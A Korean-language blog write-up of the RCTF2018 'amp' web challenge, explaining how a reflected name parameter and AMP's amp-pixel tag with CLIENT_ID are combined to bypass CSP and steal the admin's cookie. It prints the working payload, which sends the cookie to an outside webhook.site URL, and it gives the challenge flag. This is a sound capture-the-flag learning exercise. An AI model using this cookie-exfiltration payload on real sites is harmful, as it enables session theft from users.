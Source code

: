 ```yaml
---
layout: post
title: ! '[RCTF2018] amp Write up'
excerpt_separator: <!--more-->
tags:
  - Write-up
  - CTF
  - RCTF2018
---
```


2018년 5월 19일부터 5월 21일까지 RCTF가 있었다.  

비록 대회 도중에는 문제를 못풀었지만, 대회 종료 후 amp 문제를 풀게되어 Write-up을 작성하게 되었다.  

<!--more-->

문제 링크에 접속하면 아래와 같은 페이지를 확인할 수 있다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_01.PNG)  

쿠키를 확인 해 보니, `FLAG` 라는 이름으로 `flag_is_in_admin_cookie` 값이 있었다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_02.PNG)  

입력 값을 줄 수 있는 곳이 없어 헤메던 중, 메인 페이지에 `HEY INPUT YOUR NAME AFTER QUERYSTRING`이 적혀있는 것을 발견했다.  

`QUERYSTRING`은 `GET` 방식으로 인자를 넘길 때 `index.php?id=aaa`와 같은 형태를 의미한다.  

`NAME`을 입력하라고 했으므로, 문제의 url 뒤에 `name=ccoma`를 입력 해 보았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_03.PNG)  

그랬더니 그림과 같이, name 값이 그대로 출력되는 것을 확인할 수 있었다.  

`내가 입력한 값이 그대로 출력` 된다는 점에서 `XSS` 공격을 생각했지만, 분명히 script는 들어가는데 동작하지는 않았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_04.PNG)  

`curl -v` 명령어를 통해 확인 해 보니, `CSP(Content Security Policy)`가 걸려 있었다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_05.PNG)  

실제 CTF 대회 기간에는 이정도밖에 알아내지 못해서 문제를 풀지 못했었다.(흑 ㅠㅠ)  

그래서 대회 종료 후, Write-up이 올라오기만을 기다리다가 ctftime.org에 풀이가 올라온 후 문제를 다시 풀어보았다.  

내가 간과한 점은, 바로 주석이었다.  

페이지 소스를 보면 HTML 주석으로 다음과 같은 글이 있다.  

```
<!-- OK, I don't care AMP Standard -->
<!-- It just wastes my time. -->
```

대회 기간에는 주의깊게 살펴보지 않아 무슨 내용인지 몰랐지만, Write-up을 보고 다시 살펴보니 `AMP 표준에 대해서는 신경쓰지 않는다`는 내용이었다.  

`AMP 표준`은 아래 링크에서 확인할 수 있다.  

[AMP 표준 확인](https://www.ampproject.org/docs/reference/components)

`AMP(Accelerated Mobile Pages)`란, Google에서 시작한 프로젝트로 모바일 전용 빠른 웹 페이지를 의미한다.  

모바일 시장에서 페이지 로딩 속도는 이탈률을 막는 매우 중요한 요소라고 한다.  

그런데 우리가 일반적으로 사용하는 웹 페이지는 모바일에서 성능 저하가 나타나기 때문에 Google에서는 AMP를 만들어 이를 보완하고자 했다.  

하지만 Google은 모바일에서 웹 페이지의 성능을 보장하기 위해 몇 가지 제약 사항을 주었다.  

* CSS는 모두 inline으로 해야하며 50KB를 넘을 수 없다.
* script는 `<script async src="https://cdn.ampproject.org/v0.js"></script>` 처럼 AMP에서 제공하는 것 말고 외부 스크립트는 허용하지 않는다.
* `<amp-img>`, `<amp-video>` 처럼 AMP 전용 태그를 사용해야 한다.

이 외에도 다양한 제약사항이 있지만, 이번에 출제 된 문제를 풀기 위해서는 이정도만 알고 있어도 충분할 것 같다.  

`AMP` 라는 힌트를 얻었으므로, AMP 표준을 둘러보았다.  

내가 문제를 풀기 위해 필요한 것은 `admin의 flag` 이기 때문에, 무언가 쿠키 값을 가져올 수 있는 태그가 필요했다.  

태그를 찾던 중, `<amp-pixel>` 태그를 보게 되었다.  

`<amp-pixel>` 태그는 페이지 뷰를 카운트 할 때 유용한 태그라고 한다.  

`<amp-pixel>` 태그에는 기본적으로 url을 속성으로 주어야 하는데, 만약 해당 코드가 있는 페이지를 누군가 접근한다면, 태그 안에 적혀있는 url로 `GET request`를 전송 해 준다.  

그런데 이 태그의 속성으로 `CLIENT_ID`라는 것을 사용할 수 있다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_06.PNG)  

`CLIENT_ID`는 사용자를 식별하기 위한 속성으로, `AMP 문서가 Google AMP 캐시를 통해 제공되지 않을 경우에는 쿠키로 대체`된다.  

즉, 쿠키 값에 접근할 수 있다.  

따라서 문제를 풀기 위해 `<amp-pixel>` 태그를 사용하고, url에는 내가 `GET request`를 받아서 확인할 수 있는 주소로 주고, `CLIENT_ID`를 사용 해 쿠키 값을 함께 전송하도록 하면 된다.  

그런데 내가 필요한 것은 나의 쿠키가 아니라 `admin의 쿠키값`이다.  

이를 위해 있는 기능이 `name`을 전송한 뒤에 볼 수 있는 `STOP TRACKING ME` 버튼이다.  

이 버튼을 누를 경우, `We logged your request and contacted admin`이라고 출력된다.  

즉, `admin`이 내가 `name`의 인자로 준 `XSS` 코드를 실행시킬 수 있다.  

이제 필요한 것은, 내가 `GET request`를 확인할 수 있는 링크이다.  

`<amp-pixel>`은 `https`만을 지원하는데, 내 서버에는 `https` 서버가 구축되어 있지 않다.  

python으로 https 서버를 구축 해 봤지만, 제대로된 인증서를 사용하지 않아서인지 응답을 정확히 받아오지 못했다.  

그래서 [https://webhook.site](https://webhook.site/#/) 를 사용했다.  

해당 사이트에서 URL을 받은 후, 문제에서 `name` 옆에 아래와 같이 입력 해 주었다.  

```
<amp-pixel src="https://webhook.site/ee162cc6-d050-482e-89b5-9efd05074455?url=CLIENT_ID(FLAG)"></amp-pixel>
```

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_07.PNG)  

그 결과 위와 같이 코드가 삽입된 것을 확인할 수 있었다.  

`https://webhook.site`로 돌아가 확인 해 보니 아래와 같이 내가 보낸 요청이 온 것을 확인할 수 있었다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_08.PNG)  

이에, `STOP TRACKING ME` 버튼을 누른 후, 요청을 다시 확인 해 보았다.  

![]({{ site.baseurl }}/images/CTF/RCTF2018/amp/amp_09.PNG)  

드디어 플래그를 얻을 수 있었다!  

```
FLAG : RCTF{El_PsY_CONGRO0_sg0}
```

Plaid CTF, DEFCON에 이어 RCTF까지 문제 내에 힌트가 있음에도 이를 주의깊게 확인하지 않았던 문제들이 많아 너무 아쉬웠다.  

이번 대회에서는 대회 기간동안에 문제를 풀지 못했지만, 다음 대회에서는 좀 더 주의깊게 확인 해 꼭 대회 기간 내에 문제를 풀어보고 싶다.  
